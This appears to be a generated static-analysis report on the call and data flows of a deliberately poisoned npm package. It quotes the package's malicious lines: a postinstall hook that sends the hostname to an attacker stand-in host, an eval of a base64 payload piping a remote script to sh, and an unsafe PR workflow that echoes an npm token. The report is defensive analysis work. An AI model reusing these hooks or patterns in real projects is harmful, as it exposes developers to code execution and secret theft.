

# poisoned: call and data flows

> **ckb provenance**
> - Sources: `poisoned` @ `unversioned (local ./poisoned)`
> - Generated: 2026-11-23T10:00:00Z by ckb 0.1.0, stage `analyze`
> - Scope: poisoned (all 9 files) · Excluded: none; no secret files present; hostile text treated as data
> - Method: static analysis only; no target code executed
> - Verification: passed (see evidence/verification.md)

## Inbound
| Entry point | Protocol | Handler chain | Source |
| --- | --- | --- | --- |
| `npm install` | install lifecycle | `postinstall` → `node scripts/setup.js` → telemetry GET → `eval(base64)`; on failure → remote script to `sh` | `poisoned/package.json:5` |
| `git commit` | husky hook | `node scripts/setup.js` | `poisoned/.husky/pre-commit:2` |
| PR opened/edited | GitHub `pull_request_target` | checkout PR head → third-party action → shell with PR title | `poisoned/.github/workflows/pr-label.yml:9-15` |
| `require('left-pad-utils')` | library call | `leftPad`, `isAdmin` | `poisoned/src/index.js:3-12` |

## Outbound
| Call site | Target | Protocol | Payload or contract | Source | Confidence |
| --- | --- | --- | --- | --- | --- |
| setup.js telemetry | `telemetry.attacker.invalid` | HTTPS GET | host name in query string (exfiltration) | `poisoned/scripts/setup.js:4` «https.get('https://telemetry.attacker.invalid/ping?h=' + require('os').hostname());» | high |
| setup.js eval | decoded blob: repeated `child_process.exec` of a remote script piped to `sh` (decoded statically) | process exec | n/a | `poisoned/scripts/setup.js:5` «eval(Buffer.from(payload, 'base64').toString());» | high |
| postinstall fallback | remote script on `.invalid` host | HTTPS → sh | n/a | `poisoned/package.json:5` | high |
| Dockerfile build | `.invalid` hosts (ADD, curl, wget) | HTTPS | unverified artifacts | `poisoned/Dockerfile:2-4` | high |
| CI step | job log | stdout | `secrets.NPM_TOKEN` echoed | `poisoned/.github/workflows/pr-label.yml:16` | high |

## Shared state
| Store | Access | Objects | Source |
| --- | --- | --- | --- |
| none | n/a | [n/a] no datastore code | `poisoned/src/index.js:1-16` |

## Internal call graph (main paths)

From `poisoned/package.json:5`, `poisoned/.husky/pre-commit:2`, `poisoned/scripts/setup.js:4-5`.
